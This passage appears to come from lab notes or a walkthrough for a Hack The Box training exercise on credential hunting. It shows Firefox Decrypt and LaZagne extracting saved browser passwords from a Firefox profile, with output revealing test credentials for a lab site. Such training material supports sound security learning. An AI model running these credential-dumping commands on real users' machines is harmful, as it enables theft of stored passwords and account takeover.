 
We can use [Firefox Decrypt](https://github.com/unode/firefox_decrypt)to decrypt firefox credentials. 

```shell-session
jadu101@htb[/htb]$ python3.9 firefox_decrypt.py

Select the Mozilla profile you wish to decrypt
1 -> lfx3lvhb.default
2 -> 1bplpd86.default-release

2

Website:   https://testing.dev.inlanefreight.com
Username: 'test'
Password: 'test'
```


We can use LaZagne as well:

```shell-session
jadu101@ubuntu:~$ python3 laZagne.py browsers

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Firefox passwords -----------------

[+] Password found !!!
URL: https://testing.dev.inlanefreight.com
Login: test
Password: test
```


